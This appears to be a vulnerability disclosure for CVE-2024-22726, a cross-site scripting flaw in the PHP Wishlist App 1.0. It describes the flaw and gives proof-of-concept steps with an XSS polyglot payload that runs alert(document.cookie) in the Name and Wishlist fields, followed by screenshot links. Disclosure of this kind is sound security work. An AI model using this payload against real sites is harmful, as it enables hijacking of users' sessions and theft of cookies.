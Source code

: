 # CVE-2024-22726 - Wishlist App
+ *Exploit Title:* CVE-2024-22726 - Cross Site Scripting
+ *Date:* 2024-08-01
+ *Exploit Author:* Tuba Kavgacı
+ *Vendor Homepage:* https://www.sourcecodester.com/php/17089/wishlist-app-using-php-and-mysql-source-code.html
+ *Software Link:* https://www.sourcecodester.com/download-code?nid=17089&title=Wishlist+App+Using+PHP+and+MySQL+with+Source+Code
+ *Version:* 1.0
+ *Tested on:* Windows 11 Home + PHP 8.2.12, Apache 2.4.58
+ *CVE:* CVE-2024-22726

## References: 
+ https://portswigger.net/web-security/cross-site-scripting

## Description:
Wishlist App 1.0 allows mirrored cross-site scripting of the 'Name' and 'Wishlist' forms in the 'Add Wishlist' section in the 'http://localhost/wishlist-app/wishlist.php' path. The Wishlist App is vulnerable to a cross-site scripting vulnerability because it fails to adequately sanitize user-supplied data.
An attacker could exploit this issue to run arbitrary script code on an unsuspecting user's browser in the context of the affected site. This could allow an attacker to steal cookie-based authentication credentials and launch other attacks.

## Proof of concept:
+ Go to 'View List' or 'View Wishlist'.
+ Go to 'Add Wishlist'.
+ Go to the 'Name' or 'Wishlist' forms and use these payloads: `jaVasCript:/-///'/"/*/(//oNcliCk=alert(1) )//%0D%0A%0d%0a //</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert(document.cookie)//>\x3e`
+ Then click 'Save changes'.
+XSS will be loaded.
+ Scroll to and click 'View Wishlist' section.
+ Alerts will pop up.

# Exploting:
  *1:*
  
  ![Ekran görüntüsü 2024-01-25 143920](https://github.com/tubakvgc/CVE/assets/74067343/2a4c612c-f056-469e-ad0b-6c727de289fe)


  *2:*

  ![Ekran görüntüsü 2024-01-25 144032](https://github.com/tubakvgc/CVE/assets/74067343/f5195c41-5be3-4e0e-9b02-75afd56d7f91)


  *3:*

 ![Ekran görüntüsü 2024-01-25 144130](https://github.com/tubakvgc/CVE/assets/74067343/b6b309d5-c7a5-4484-8f89-b4e64ab42259)



  *4:*

![Ekran görüntüsü 2024-01-25 144141](https://github.com/tubakvgc/CVE/assets/74067343/6e418b37-016c-4d9c-b9fa-17dd29f8c559)


  *5:*
  
  ![Ekran görüntüsü 2024-01-25 144214](https://github.com/tubakvgc/CVE/assets/74067343/7ea89e79-7649-4c51-9516-209e11b98a3b)



  *6:*
  
  ![Ekran görüntüsü 2024-01-25 144450](https://github.com/tubakvgc/CVE/assets/74067343/7b2a7b19-75f2-49c2-9ca5-ef328499929f)


  *7:*

  ![Ekran görüntüsü 2024-01-25 144508](https://github.com/tubakvgc/CVE/assets/74067343/ce3fed82-f09e-4099-ae5c-61b71e939eb4)
  
